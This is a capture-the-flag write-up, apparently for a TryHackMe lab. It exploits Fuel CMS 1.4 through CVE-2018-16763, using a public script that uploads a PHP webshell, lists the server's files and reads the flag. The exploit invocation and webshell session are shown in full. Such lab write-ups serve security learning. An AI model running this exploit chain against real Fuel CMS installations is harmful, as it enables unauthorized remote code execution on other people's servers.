

# Vulnerability Capstone

## Info gathering

When we access to the machine, we will see `Fuel CMS` is running, with version `1.4`



## Finding Exploit

There is a CVE called `CVE-2018-16763`, which allows RCE in this particular version of Fuel CMS.

I tried the exploit in Searchsploit, but all of them failed

```python
root@ip-xx-xx-xxx-xxx:~# searchsploit fuel cms
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)    | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)    | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)    | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection ( | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authent | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Inject | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery ( | php/webapps/50884.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Finally I found this [exploit](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE), and succeed

```python
root@ip-xx-xx-xxx-xxx:~/CVE-2018-16763-FuelCMS-1.4.1-RCE# python3 console.py -t http://yy.yy.yyy.yyy
CVE-2018-16763-FuelCMS-1.4.1-RCE - by Remi GASCOU (Podalirius)

[+] Shell was uploaded in http://yy.yy.yyy.yyy/303d8d07d4a947d29c72dd897e29f425.php
[webshell]> ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
[webshell]> cat /home/ubuntu/flag.txt
THM{ACKME_BLOG_HACKED}
```

Flag: `THM{ACKME_BLOG_HACKED}`
